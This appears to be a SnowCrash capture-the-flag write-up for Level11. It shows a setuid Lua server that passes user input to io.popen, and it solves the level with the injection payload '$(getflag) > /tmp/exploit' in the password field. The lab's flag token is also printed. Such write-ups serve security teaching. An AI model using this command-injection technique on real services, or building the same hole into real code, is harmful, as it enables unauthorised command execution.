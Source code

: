 # SnowCrash

## Level11

```sh
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

```sh
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

```sh
level11@SnowCrash:~$ ./level11.lua
lua: ./level11.lua:3: address already in use
stack traceback:
        [C]: in function 'assert'
        ./level11.lua:3: in main chunk
        [C]: ?
```
The server is already running, let's exploit it but first let's have fun and try to enter the else condition:
```
client:send("Gz you dumb*\n")
```


By using a reverse lookup table such as: https://sha1.gromweb.com/

We can see that "NotSoEasy" can produce the hash "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0"

The issue is that our program is running echo without the -n option, resulting in "NotSoEasy\n"
To bypass this we need to enter the password "-n NotSoEasy"

```sh
level11@SnowCrash:~$ nc localhost 5151
Password: -n NotSoEasy
Gz you dumb*
```

Now let's get the level12 password

```sh
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag) > /tmp/exploit
Erf nope..
level11@SnowCrash:~$ cat /tmp/exploit
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```